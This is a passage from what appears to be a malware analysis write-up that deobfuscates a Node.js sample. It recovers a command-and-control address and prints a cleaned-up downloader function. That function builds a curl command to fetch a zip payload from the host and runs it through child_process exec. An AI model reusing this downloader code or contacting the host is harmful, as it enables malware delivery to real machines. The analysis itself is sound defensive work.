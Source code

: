 It's this part. But since this is JavaScript, it's extremely easy to run it. We can literally just paste this code into our web browser (it won't do any damage, it was made for NodeJS), paying attention only to include the parts of the code we need (if we also use the parts of the code where it imports libraries, it won't run in the browser). Then, if we just type `console.log(Z)`, we get an output: **"hxxp[://]147[.]124[.]212[.]89:1244"**

### Looking for executes (`ex`)
Remember that `ex = require("child_process")["exec"]`? Well, let's look at where `ex()` is being used!

#### First execute

```js
}, A = () => {
    const t = "p2.zip",
        c = `${"http://147.124.212.89:1244"}${"/pdown"}`,
        r = `${td}\\${"p.zi"}`,
        e = `${td}\\${t}`;
    if (H >= C + 6) return;
    const l = "renameSync",
        s = "rename";
    if (a[G](r)) try {
        var h = a[f](r);
        h.size >= C + 6 ? (H = h.size, a[s](r, e, (t => {
            if (t) throw t;
            k(e)
        }))) : (H < h.size ? H = h.size : (a[S](r), H = 0), E())
    } catch (t) {} else {
        const t = `${"curl -Lo"} "${r}" "${c}"`;
        ex(t, ((t, c, n) => {
            if (t) return H = 0, void E();
            try {
                H = C + 6, a[l](r, e), k(e)
            } catch (t) {}
        }))
    }
};
```
(this is also cleaned up somewhat)
Ugh, that's a lot again. Do we really need all this tho?
Not really.
```js
ex(t, ((t, c, n) => {
```
The above line executes the `t` string. What is the `t` string?
```js
const t = `${"curl -Lo"} "${r}" "${c}"`;
```
Let's dig deeper, we need `c` too now (we don't really need `r`, since it's just the download location, but if you are curious, it downloads into the temp directory defined at the top)

```js
        c = `${"hxxp[://]147[.]124[.]212[.]89:1244"}${"/pdown"}`,
```
